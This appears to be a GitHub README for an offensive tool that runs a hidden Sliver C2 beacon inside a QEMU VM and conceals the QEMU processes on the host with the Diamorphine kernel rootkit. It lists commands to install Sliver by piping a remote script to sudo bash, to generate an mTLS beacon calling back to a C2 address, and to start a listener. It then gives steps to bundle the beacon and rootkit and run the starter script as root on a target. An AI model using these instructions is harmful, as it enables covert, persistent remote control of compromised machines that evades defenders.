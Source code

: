 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.
Static network configuration with custom MAC address.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:
```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```
- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host as root;


VM in QEMU:

![Image 1](https://i.imgur.com/yxWqAgM.jpeg)

Before rootkit execution:

![Image 2](https://i.imgur.com/uLHbYHd.jpeg)

QEMU processes hidden on a host:

![Image 3](https://i.imgur.com/jD5UP5b.jpeg)

Unhiden:

![Image 4](https://i.imgur.com/dTE7umq.jpeg)


---

Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu
- https://github.com/BishopFox/sliver


